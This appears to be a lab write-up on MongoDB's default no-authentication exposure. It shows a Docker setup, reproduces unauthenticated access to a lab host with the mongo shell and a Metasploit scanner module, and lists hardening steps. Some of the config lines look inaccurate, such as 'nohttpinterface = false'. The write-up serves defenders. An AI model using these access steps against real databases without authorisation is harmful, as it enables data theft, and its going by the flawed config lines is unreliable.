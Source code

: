 # MongoDB Unauthorized Access Vulnerability

## Vulnerability Description

When starting the MongoDB service without adding any parameters, it defaults to having no authentication. The logged in user can perform any operation on the database (high risk operations such as adding, deleting, and modifying) without a password via the default port, and can also remotely access the database.

## Environment Setup

Download the MongoDB image from Docker

```
docker run  -it  -p  27017:27017 mongo
```

## Vulnerability Reproduction

### Execution with CLI

```
┌──(root💀kali)-[~]
└─# mongo 192.168.32.131
MongoDB shell version v5.3.1
connecting to: mongodb://192.168.32.131:27017/test?compressors=disabled&gssapiServiceName=mongodb
Implicit session: session { "id" : UUID("c7ddf3c3-2fbc-4b5a-b9a4-91dfce9703a2") }
MongoDB server version: 5.0.8
WARNING: shell and server versions do not match

> show dbs
admin   0.000GB
config  0.000GB
local   0.000GB

```

### Execution with MSF

```
msf6 > use auxiliary/scanner/mongodb/mongodb_login
msf6 auxiliary(scanner/mongodb/mongodb_login) > set rhosts 192.168.32.131
rhosts => 192.168.32.131
msf6 auxiliary(scanner/mongodb/mongodb_login) > run

[*] 192.168.32.131:27017 - Scanning IP: 192.168.32.131
[+] 192.168.32.131:27017 - Mongo server 192.168.32.131 doesn't use authentication
[*] 192.168.32.131:27017 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## Repair Suggestions

**(1). Create a New Admin Account to Enable MongoDB Authorization** Create a new terminal [parameters can be omitted by default, only add if there are custom parameters, similarly below] `mongod --port 27017 --dbpath /data/db1`

In another terminal, run the following commands:

```
  use admin

  db.createUser(
    {
      user: "adminUser",
      pwd: "adminPass",
      roles: [ { role: "userAdminAnyDatabase", db: "admin" } ]
    }
  )
```

![image-20220519143515018](../../.gitbook/assets/image-20220519143515018.png)

The administrator has been created successfully and now has the administrator user `adminUser` with the password `adminPass`

**(2). Local Access**

```
bind 127.0.0.1
```

**(3). Modify the Default Port** Change the default MongoDB port (default: TCP 27017) to another port

**(4). Disable the HTTP and REST Ports** MongoDB has its own HTTP service and supports REST interfaces. These interfaces are turned off by default in version 2.6 and later. MongoDB defaults to listening for web services on the default port, and remote management through the web is generally not needed, so it is recommended to disable it. Modify the configuration file or choose the `-nohttpinterface` parameter when starting `nohttpinterface = false`

**(5). Enable Log Audit Functionality** The audit function can be used to record all related operations on the database by the user. These records can allow the system administrator to analyze what happened to the database at what time when necessary.

**(6). Enable Auth Authentication**

```
/etc/mongodb.conf　　
auth = true
```
